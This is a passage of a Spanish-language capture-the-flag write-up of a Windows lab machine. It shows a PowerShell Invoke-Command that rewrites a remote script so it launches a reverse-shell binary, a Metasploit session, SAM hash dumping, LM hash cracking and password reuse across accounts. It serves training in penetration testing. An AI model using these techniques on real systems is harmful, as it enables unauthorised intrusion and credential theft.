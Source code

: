 Al rato me doy cuenta de que estoy en *ACUTE-PC01* por lo que el archivo *rev.exe* que descargué en *C:\Utils* sigue ahí y puedo usarlo:

```powershell
Invoke-Command -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred -ScriptBlock {(Get-Content C:\Users\imonks\desktop\wm.ps1 -Raw) -Replace "Get-Volume","cmd \c C:\Utils\rev.exe" | Set-Content C:\Users\imonks\desktop\wm.ps1}
```

![image](https://user-images.githubusercontent.com/55555187/186633971-329d2138-4683-4150-909c-f976c140a4a8.png)

Consigo entablarme una sesión, reviso los permisos de *jmorgan* y descubro que es *Administrator local* en la máquina  

![image](https://user-images.githubusercontent.com/55555187/186635684-0c878de3-9570-43fd-89fd-12612043a113.png)

Como tiene los permisos *SEBackupPrivilege* y *SERestorePrivilege* podría dumpear *SAM* y *SYSTEM* y crackearlas usando *Secretsdump.py*

![image](https://user-images.githubusercontent.com/55555187/186637341-e456c027-5c78-434f-b54f-20ce78d955a6.png)

Como veo que es bastante dificil exfiltrar información de la máquina ya que el firewall bloquea todos mis intentos, decido entablar una sesión por *Metasploit* usando el archivo *met.exe* que tengo en *C:\Utils* de la misma forma que hice con *rev.exe*.

Una vez entablada la sesión, utilizo el comando *hashdump* para dumpear la *SAM*:

![image](https://user-images.githubusercontent.com/55555187/186637748-095a0687-8efa-4097-a171-f61177ea7e97.png)

Crackeo el hash *LM* usando *CrackStation* y obtengo la contraseña de *Administrator*:

<img src="https://user-images.githubusercontent.com/55555187/186638093-b56265d1-3134-4011-a061-ffcabbf6f363.png" title="" alt="image" width="585">

Pruebo a loguearme como *Administrator* y *Password@123* usando el *PSWA* pero me dice que las credenciales son incorrectas, pruebo con el resto de usuarios que saqué del *about.html* y parece que la la contraseña es la de *AWallace*el cual tiene acceso a *ATSSERVER*:

![image](https://user-images.githubusercontent.com/55555187/186640031-ee06c114-64ae-440a-83f2-b4ea8caab133.png)

Usando de nuevo el método *Invoke-Command* compruebo si puedo ejecutar comandos como *AWallace* en *ATSSERVER*:

![image](https://user-images.githubusercontent.com/55555187/186639901-95f5ec4e-bfad-4bf7-89f2-8c9c6ef4a231.png)

Realizo un reconocimiento de la máquina y escuentro un directorio que me llama la atención en *Program Files*:

![image](https://user-images.githubusercontent.com/55555187/186642631-746f55d6-bd1c-4d3e-87d5-9b024103855e.png)

Observando su contenido veo un script que lo que hace es ejecutar todos los archivos *bat* que haya en el directorio o en subdirectorios de este como el usuario *Lois* que recordemos que es el único usuario con privilegios para cambiar a gente de grupo:

![image](https://user-images.githubusercontent.com/55555187/186642849-099abb37-f68d-4266-9494-e5e9b8288f4c.png)
